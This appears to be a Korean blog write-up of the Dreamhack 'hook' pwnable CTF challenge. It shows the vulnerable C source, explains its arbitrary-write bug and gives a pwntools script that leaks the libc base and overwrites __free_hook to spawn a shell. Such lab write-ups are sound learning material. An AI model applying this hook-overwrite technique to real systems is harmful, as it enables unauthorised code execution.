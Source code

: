 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN hook"
excerpt: "드림핵 포너블 hook 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-07 14:30
---
```


dreamhack 크리스마스 CTF 문제중에 hook문제가 있어 같이 풀어봤다. 문제 자체는 드림핵 hook 문제가 난이도도 낮고 코드도 간단하다. 

문제파일을 다운받고 압축을 풀면 hook바이너리와 소스코드, libc가 있다. 문제 환경은 ubuntu 16.04로 도커를 사용해 문제를 디버깅 했다. 소스코드는 다음과 같다.

```c
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);
   
    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

stdout의 주소를 출력해 주고 malloc하기 위한 사이즈를 입력 받는다. 이후 malloc한 포인터를 ptr에 대입하고 malloc의 사이즈 만큼 read 함수를 통해 ptr에 쓴다.

그 다음, *ptr의 주소에 *(ptr+1)을 대입한다. 그다음 ptr을 두번 free하고 system("/bin/sh")를 실행한다. 일단 더블프리 오류로 인해 system함수는 정상적으로 실행이 힘들 것 이다.

여기서 활용할 것은 다음 코드이다.
```c
*(long *)*ptr = *(ptr+1);
```

만약 ptr 변수에 read 함수를 통해 0x40000000000000001000000000000000라는 값을 입력 받았다고 가정하자. 위 코드는 ptr의 포인터가 가리키는 함수의 내용을 *(ptr+1)로 바꾸는 코드이다. 따라서 0x40000000000000001000000000000000라는 값을 입력했을 때의 결과는 0x4000000000000000 주소의 값에 0x1000000000000000라는 값을 넣게 된다. 64비트 기반이기 때문에 16사이즈로 잘라서 계산하면 편하다.

그럼 이 기능을 이용해 read 함수를 통해서 p64(free_hook)+p64(*(system("/bin/sh")))를 입력하면 free가 실행되기 전 system("/bin/sh")를 실행하게 된다. 원샷 가젯을 이용해도 될것 같지만 문제에서 system함수가 존재하기 때문에 이를 이용해 exploit코드를 작성했다.

아래 코드를 이용하면 문제를 쉘을 획득할 수 있다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#c = remote("host3.dreamhack.games", 22736)
c = process("./hook", env={'LD_PRELOAD':'./libc.so.6'})
#c = process("./hook")
libc=ELF('./libc.so.6')

print(c.recvuntil(b"stdout: "))
stdout = int(c.recv(14), 16)
main_syscall = 0x400a11

print("stdout : "+hex(stdout))

libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']

payload = p64(free_hook)+p64(main_syscall)

c.sendlineafter(b"Size: ", b"400")
c.sendlineafter(b"Data: ", payload)

c.interactive()
```